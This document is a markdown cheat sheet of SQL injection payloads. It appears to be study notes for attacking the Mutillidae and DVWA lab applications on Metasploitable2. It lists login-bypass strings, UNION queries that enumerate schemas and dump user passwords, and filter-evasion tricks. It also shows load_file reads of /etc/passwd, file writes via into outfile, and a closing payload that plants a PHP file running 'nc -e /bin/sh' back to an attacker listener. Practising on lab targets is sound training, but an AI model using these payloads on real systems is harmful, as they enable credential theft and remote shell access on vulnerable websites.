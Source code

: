# SQL Injection
```mysql
# connect
mysql -u userneame -h host_ip

# access
show databases
use database_name
show tables
```

# In metasploitable2
## mutillidae
> if facing any error in login/registration mutillidae
```cmd
vim /var/www/mutillidae/config.inc
#update $dbname = 'owasp10';
```
## dvwa
```cmd
username: admin
password: password
```




> Security leve 0
```
# for password
select * from accounts where username = 'admin' and password='aaa' or 1=1 #'
12345789' or 1=1#

# for username
select * from accounts where username = 'admin' #' and password='aaa'
admin' #
```

### Security leve 1
- use burp to change values.
select * from accounts where username='reza' order by 1# and password='$password'

### Injection identification
```
select * from accounts where username='reza' order by 1000000# and password='$password'

http://192.168.31.142/mutillidae/index.php?page=user-info.php&username=reza%27%20order%20by%201000%23&password=53252&user-info-php-submit-button=View+Account+Details

order by 1000000
```

```
192.168.31.142/mutillidae/index.php?page=user-info.php&username=reza' union select 1,2,3,4,5%23&password=53252'%23&user-info-php-submit-button=View+Account+Details

union select all number of columns
union select 1,database(),user(),version(),5
union select 1,table_name,null,null,5 from information_schema.tables
union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'
union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'
union select 1,username,password,is_admin,5 from accounts
```

## dvwa sql injection sequerity level: low
```
# find database name
union select database(),2
#find all tables
union select table_name,2 from information_schema.tables
#find tables of this database
union select table_name,2 from information_schema.tables where table_schema='dvwa'
#find columns of this table
union select column_name,2 from information_schema.columns where table_name='users'
#data
union select user,password from users
```

## dvwa sql injection sequerity level: medium
```
# remove ' from injection
# try with %27(its equals to ')
# find all tables
union select table_name,2 from information_schema.tables

#find tables of this database
#dvwa encode as hex by burp, so dvwa==0x64767761
union select table_name,2 from information_schema.tables where table_schema=0x64767761
```

# Tricks
```cmd
and 1=1
aNd 1=1
anD 1=1
orDeR bY 1
# union select 1,2 %23 can be written as
uNioN+sEleCt+1,2+%23
uNioN/**/sEleCt/**/1,2/**/%23

# # can be written as
/*
--
//
; --
; /*
; //
```

## Limit
```cmd
# start taking from index 3 and pick 1
union select table_name,2 from information_schema.tables limit 3,1
```

## Read Write file using SQL Injection
```cmd
union select null,load_file('/etc/passwd'),null,null,null
union select null,'example example,null,null,null into outfile '/var/www/test.com'
```

## Shell Access by SQL Injection
```
# in attacker mechine
nc -vv -l -p 8888

# in web server
http://192.168.31.142/dvwa/vulnerabilities/sqli/?id=1'union select '<?passthru("nc -e /bin/sh 192.168.31.158 8888";)?>',null into outfile '/tmp/reverse.php'%23&Submit=Submit#
```


